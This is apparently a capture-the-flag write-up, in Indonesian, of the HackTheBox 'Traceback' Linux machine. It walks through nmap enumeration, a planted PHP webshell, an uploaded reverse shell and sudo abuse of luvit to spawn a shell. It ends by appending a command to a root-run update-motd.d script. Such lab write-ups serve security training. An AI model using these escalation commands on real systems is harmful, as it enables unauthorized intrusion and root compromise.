






# Traceback (Linux)



HackTheBox Traceback dengan operating system Linux

### Enumeration

Mari kita mulai enumeration open port dengan menggunakan nmap

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp    filtered http
```

Sekilas kita melihat ada port 22 (TCP) yang open dan juga ada port 80 (HTTP) namun filtered.

Walaupun tulisannya filtered namun ternyata kita masih bisa akses websitenya tanpa masalah


Ditemukan github Xh4H yang berhubungan dengan webshell

[https://github.com/Xh4H/Web-Shells](https://github.com/Xh4H/Web-Shells)



Dari repository webshell yang penulis temukan tadi, penulis kemudian mencoba untuk membuka 1 per 1 nama webshell nya.

Ternyata benar, ditemukan file webshell bernama Smevk.php



Penulis kemudian melakukan file upload sebuah file reverse shell php dari pentest monkey sebagai andalannya. Kenapa tidak menggunakan RCE yang sudah ada saja untuk membuka koneksi melewati netcat?

Penulis sudah mencoba menggunakan koneksi dari netcat namun sepertinya koneksi yang stabil tidak bisa didapatkan sehingga penulis mencoba cara lain.

Masuk sebagai web admin, ditemukan note.txt



Ditemukan luvit, yang ternyata semacam compiler untuk Bahasa lua

```
https://luvit.io/
```



Menjalankan sudo -l kita bisa mendapatkan sesuatu yang menarik

```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Dan menurut GTFOBins kita bisa menggunakan script lua tadi untuk menjalankan privilege escalation dari webadmin menjadi sysadmin



```
Echo “os.execute(“/bin/sh”)” > privesc.lua

sudo -u sysadmin /home/sysadmin/luvit /home/webadmin/privesc.lua
```

Karena kita sudah menjadi sysadmin dan butuh perjuangan dalam mencapai sysadmin ini dari webshell ada baiknya kita memasukkan rsa key kita untuk lebih leluasa melakukan ssh kedalam boxnya.

Penulis sudah mencoba menjalankan LinEnum.sh dan manual enumeration, namun hal yang menarik justru bisa ditemukan saat menajalnakn pspy script

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Pspy adalah tool yang super powerful untuk melihat running processes secara langsung.

Ternyata ada update-motd.d yang di backup setiap 30 detik dijalankan oleh root.

Update-motd.d adalah script yang dijalankan dengan permission root namun bisa diedit oleh sysadmin, kita tinggal memasukkan payload RCE kita kedalam untuk cat root / mendapatkan reverse shell as root

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Kita bisa menambahkan payload RCE di file ini

```
echo “cat /root/root.txt” >> 00-header
```

Kemudian untuk meng-execute payload RCE kita, kita hanya harus login melalui SSH agar header motd ter trigger lagi

# Rooted !